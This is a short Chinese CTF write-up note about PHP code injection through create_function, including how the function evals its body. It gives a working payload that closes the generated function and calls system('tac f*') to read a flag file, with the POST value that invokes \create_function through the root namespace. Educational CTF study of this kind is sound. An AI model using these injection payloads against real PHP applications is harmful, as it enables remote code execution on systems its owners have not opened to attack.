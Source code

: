 > [Code Breaking 挑战赛 Writeup (seebug.org)](https://paper.seebug.org/755/#easy-pcrewaf)
>
> php里默认命名空间是`\`，所有原生函数和类都在这个命名空间中。 
>
> 普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路 径； 而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。
>
> 如果你在其他namespace里调用系统类，就必须写绝对路径这种写 法



[PHP: create_function - Manual](https://www.php.net/manual/zh/function.create-function.php)

其功能大致是这样：

```php
create_function('$a,$b','return 111');
# 等价于
function a($a, $b){
    return 111;
}
```

且 (之前打比赛碰到，简单记录一下)

> create_function生成的函数名有些特殊，它是`NULL字符加上”lambda_”再加个一个数字标识（\x00lambda_数字标识）`，其中数字标识代表它是当前进程中的第几个匿名函数。create_function的实现步骤如下：
>
> 1. 获取参数, 函数体
> 2. 拼凑一个”function __lambda_func (参数) { 函数体;} “的字符串
> 3. eval之
> 4. 通过__lambda_func在函数表中找到eval后得到的函数体, 找不到就出错
> 5. 定义一个函数名:”\000_lambda_” . count(anonymous_functions)++
> 6. 用新的函数名替换__lambda_func
> 7. 返回新的函数名

那么就可以这样构造绕过：
提前将其闭合+注入代码+将后续代码`注释`或者用`?>`闭合

```php
create_function('$a,$b','return 111;}phpinfo();//');
# 等价于
function a($a, $b){
    return 111;}phpinfo();//;
}
# 这样一来就可以执行注入的代码：phpinfo()了~
```

那么本题：

```
GET:
?show=echo 1;}system('tac f*');//
?show=echo 1;}system('tac f*')?>
POST:
ctf=%5ccreate_function
```

## 148-中文变量

